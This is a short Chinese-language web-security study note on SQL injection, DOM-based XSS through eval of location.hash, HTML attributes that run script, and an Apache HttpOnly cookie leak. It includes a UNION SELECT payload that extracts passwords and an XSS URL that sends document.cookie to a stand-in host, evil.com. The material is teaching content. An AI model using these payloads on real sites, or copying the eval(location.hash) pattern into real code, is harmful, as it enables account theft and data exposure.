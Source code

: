 ### Sql注入攻击
````javascript
http://www.foo.com/user.php?id=1
get请求目地：
  select username,email,desc1 from users where id=1;

攻击：
  http://www.foo.com/user.php?id=1 union select password,1,1 from users;
````
### XSS跨站脚本攻击
````javascript
前端解析location参数
<script>
eval( location.hash.substr(1) ); // 获取#符号后面的内容
</script>

攻击：
  http://www.foo.com/info.html#new%20Image().src="http://www.evil.com/steal.php?c="+escape(document.cookie);

诱骗用户点击之后，用户所在的网站解析参数
然后加载图片，发起get请求"http://www.evil.com/steal.php?c="+escape(document.cookie)
````
### HTML内嵌脚本执行 `能执行js的位置越多，意味着XSS发生的面越广，XSS漏洞出现的可能性越大`
````javascript
js脚本除了执行在JS格式的文件里，还可以出现在HTML的很多标签中，如下：
<script>alert(1)</script>
<img src=# onerror="alert(1)">
<input type="text" value="x" onmouseover="alert(1)" />
<iframe src="javascript:alert(1)"></iframe>
<a href="javascript:alert(1)">x</a>
````
### CSRF攻击
### cookies攻击
````txt
Apache Http Server 400错误暴露HttpOnly Cookie
Apache Http Server请求头信息超过LimitRequestFieldSize长度时，服务器返回400（Bad Request），并在返回信息中将出错的请求头内容输出（包含请求头里的 HttpOnly Cookie），攻击者可以利用这个缺陷获取HttpOnly Cookie
````
